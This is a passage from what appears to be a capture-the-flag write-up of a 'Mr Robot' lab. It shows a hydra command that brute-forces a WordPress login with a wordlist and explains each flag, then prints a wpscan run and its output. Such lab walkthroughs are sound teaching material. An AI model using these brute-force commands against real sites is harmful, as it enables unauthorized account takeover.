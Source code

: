 ### 1.4 Bruteforcing

Use the command: `❯ hydra -l Elliot -P ../fsocity.dic 10.10.91.137 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username"`

Explaination:
- `hydra` is the tool we use (smh)
- `-l` flag indicates only one username for (l)ogin. `-L` for a list of it
- `-P` flag for a password list. `-p` for a single password
- `http-post-form` is self explainatory. it requires 3 things, separated by `:`s
    - exact path to where you want to attack, in our case is `/wp-login.php`
    - the syntax and style of `username:password`
    - substring of the error message of wrong password (to thus differentiate between right and wrong)

Since this is bruteforce, it'll take time to execute. add `-t` flag to specify number of threads, default being 16.

At this point, I have to mention that I spent a long long time to make it work. It did not. One thing which I should have done the first was to remove duplicates. There's also a tool called `wpscan`. Let's try it out.

### 1.5 WPScan
```
❯ wpscan --url 10.10.91.137 -t 64 -U Elliot -P ~/Desktop/Work/Pen-Testing/fsocity.dic
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.12
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: http://10.10.91.137/ [10.10.91.137]
[+] Started: Sat Mar  6 00:14:02 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache
 |  - X-Mod-Pagespeed: 1.9.32.3-4523
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://10.10.91.137/robots.txt
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.91.137/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
```